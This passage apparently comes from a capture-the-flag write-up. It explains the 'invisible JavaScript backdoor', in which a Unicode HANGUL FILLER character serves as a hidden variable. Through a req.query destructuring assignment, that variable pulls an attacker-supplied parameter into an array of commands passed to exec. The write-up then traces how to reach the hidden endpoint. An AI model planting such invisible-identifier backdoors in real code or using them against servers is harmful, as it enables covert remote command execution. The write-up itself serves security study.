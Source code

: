 Acording to [this blog post](https://certitude.consulting/blog/en/invisible-backdoor/ "The Invisible JavaScript Backdoor") written by Wolfgang Ettlinger from Certitude:
> Beginning with ECMAScript version 2015, all Unicode characters with the Unicode property ID_Start can be used in identifiers
> <br>
> (...)
> <br>
> The character “ㅤ” (0x3164 in hex) is called “HANGUL FILLER” and belongs to the Unicode category “Letter, other”. As this character is considered to be a letter, it has the ID_Start property and can therefore appear in a JavaScript variable

So because the unicode character U+3164 is considered to be a letter, it can be trivially used as a JavaScript variable name.

The line:
```javascript
const { timeout,\u3164} = req.query;
```
is a destructuring assignment.
The author of the blog post also says that:
> A destructuring assignment is used to deconstruct the HTTP parameters from `req.query`. Contrary to what can be seen, the parameter `timeout` is not the sole parameter unpacked from the `req.query` attribute! An additional variable/HTTP parameter named “ㅤ” is retrieved – if a HTTP parameter named “ㅤ” is passed, it is assigned to the invisible variable.
> <br>
> Similarly, when the `checkCommands` array is constructed, this variable is included into the array:

```javascript
const checkCommands = [
  'ping -c 1 google.com',
  'curl -s http://example.com/',ㅤ
];
```

> Each element in the array, the hardcoded commands as well as the user-supplied parameter, is then passed to the `exec` function. This function executes OS commands.

So for this attack to work we need to pass a GET parameter representing the invisible variable, in its URL-encoded form (`%E3%85%A4`), to execute arbitrary OS commands.

But before, we need the `portasulretro` variable so we can access the `/${portasulretro}` endpoint.

Looking at this part of the code:
```javascript
app.get("/home", function (request, response) {
  if (request.session.loggedin) {
    var options = { headers: { 'PortaSulRetro': portasulretro } };

    response.sendFile(path.join(__dirname + "/login.js"), options);
  } else {
    response.send("Please login to view this page!");
    response.end();
  }
});
```
we can see that the variable `portasulretro` is in the header of the response we get when we access the `/home` endpoint after logging in.
